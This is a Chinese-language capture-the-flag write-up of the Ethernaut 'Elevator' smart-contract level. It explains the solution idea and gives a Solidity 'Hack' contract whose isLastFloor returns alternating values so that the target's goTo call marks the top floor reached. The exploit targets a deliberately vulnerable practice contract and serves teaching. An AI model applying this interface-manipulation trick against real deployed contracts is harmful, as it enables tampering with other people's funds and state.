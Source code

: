```solidity
        }
    }
}
```
### 解题思路
当building.isLastFloor(_floor)为false的时候，才可以进入if语句，然后top显然也会为false，因此需要外部合约来实现让building.isLastFloor(floor)两次出现不同的结果，即让第一次调用返回false，在第二次返回true。
因此需要实现一个Building接口满足以下条件：  
1. 有个isLastFloor函数  
2. 接受一个uint256的输入参数  
3. 返回一个bool  
### 解题过程
1.获取实例  
2.remix部署合约  
```solidity
contract Hack {
    Elevator public target;
    constructor(address _instance) {
    target = Elevator(_instance);
  }
  
   bool result = true;
   function isLastFloor(uint) public returns (bool){
        if(result == true) {
      result = false;
        }
        else {
            result = true;
        }
        return result;
    }
    function attack() public {
        target.goTo(10);
    }
}
```
3.hack  
4.提交  
